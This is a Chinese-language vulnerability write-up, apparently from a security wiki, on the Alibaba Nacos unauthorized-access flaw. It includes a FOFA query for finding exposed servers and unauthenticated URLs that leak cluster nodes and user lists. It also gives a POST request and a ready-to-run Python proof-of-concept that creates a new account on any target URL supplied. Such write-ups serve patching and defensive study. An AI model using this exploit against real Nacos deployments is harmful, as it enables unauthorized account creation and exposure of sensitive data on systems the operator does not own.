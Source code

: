 # Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

> [!NOTE]
>
> Nacos <= 2.0.0-ALPHA.1

## FOFA

> [!NOTE]
>
> title="Nacos"

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](image/nacos-1.png)

## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论

https://github.com/alibaba/nacos/issues/1105

![](image/nacos-2.png)

![](image/nacos-3.png)

这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问

![](image/nacos-4.png)

这里的请求url简化为

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=

退出用户后在前台访问这个 url

![](image/nacos-5.png)

可以发现以及泄露了 **ip节点** 等数据

同样我们查看用户列表的请求并在前台访问

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9

![](image/nacos-7.png)

![](image/nacos-6.png)

这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![](image/nacos-8.png)

返回下列创建成功

```
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```

![](image/nacos-9.png)

![](image/nacos-10.png)

看到有文章说要加上**User-Agent请求头**

```
User-Agent: Nacos-Server
```

但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

> [!NOTE]
>
> 同样的原理也可以用于修改密码添加配置等

## 漏洞利用POC

> [!NOTE]
>
> 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
>
> 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](image/nacos-11.png)

## Goby & POC

> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Alibaba_Nacos_Add_user_not_authorized.json

![](image/nacos-14.png)
